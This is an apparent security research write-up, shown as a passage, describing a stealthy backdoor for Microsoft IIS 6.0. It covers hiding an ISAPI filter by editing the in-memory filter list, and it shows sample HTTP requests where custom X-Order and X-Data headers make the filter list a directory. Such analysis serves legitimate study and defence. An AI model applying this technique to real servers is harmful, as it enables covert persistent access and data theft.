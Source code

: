 The following scheme shows how IIS filters are organized in memory :

SchemaListNoHidFilt.png

Knowing this memory organization it is easy to add a new hidden filter in memory. To do so we have to find the instance of the FILTER_LIST in the heap. Once found, we just have to add a new HTTP_FILTER_DLL structure in the HTTP_FILTER_DLL list and add a reference to it in the filter array of the FILTER_LIST structure:

SchemaListHidFilt.png
Backdoor Implementation

The backdoor is working on a very simple principle. Clients send requests with special headers containing orders and the filter replies by adding data to the outgoing response. The filter is registered for SF_NOTIFY_PREPROC_HEADERS and SF_NOTIFY_SEND_RAW_DATA events. Once an incoming request arrives, the filter is checking whether headers X-ORDER and/or X-DATA are present in the request, if so and if the order is known it executes it and replies. As our filter is notified for any page of the server, I can request any page on the server to communicate with my filter. I just need to add special headers to a regular request.

If I request a simple page (here /pwet.htm) without adding headers IIS has a normal behaviour, i.e IIS response is as following:

```
GET /pwet.htm HTTP/1.1
Host: 192.168.73.143
Accept-Encoding: identity
Connection: Keep-Alive
Content-type: application/x-www-form-urlencoded
Accept: */*

HTTP/1.1 200 OK
Date: Thu, 03 Feb 2011 12:16:50 GMT
Content-Length: 31
Content-Type: text/html
Last-Modified: Mon, 21 Jun 2010 11:53:19 GMT
Accept-Ranges: bytes
ETag: "963779573811cb1:994"
Server: Microsoft-IIS/6.0

<html>

Pouetpouet

</html>
```


But if I request the same page and add an order (here the order is "ListDir" of base64("C:") ), then I have the following result:


```
GET /pwet.htm HTTP/1.1
Host: 192.168.73.143
Accept-Encoding: identity
X-Order: ListDir
Connection: Keep-Alive
X-Data: Qzpc
Content-type: application/x-www-form-urlencoded
Accept: */*

HTTP/1.1 200 OK
Date: Thu, 03 Feb 2011 12:16:57 GMT
Content-Length: 353
X-Resp: OK
Content-Type: text/html
Last-Modified: Mon, 21 Jun 2010 11:53:19 GMT
Accept-Ranges: bytes
```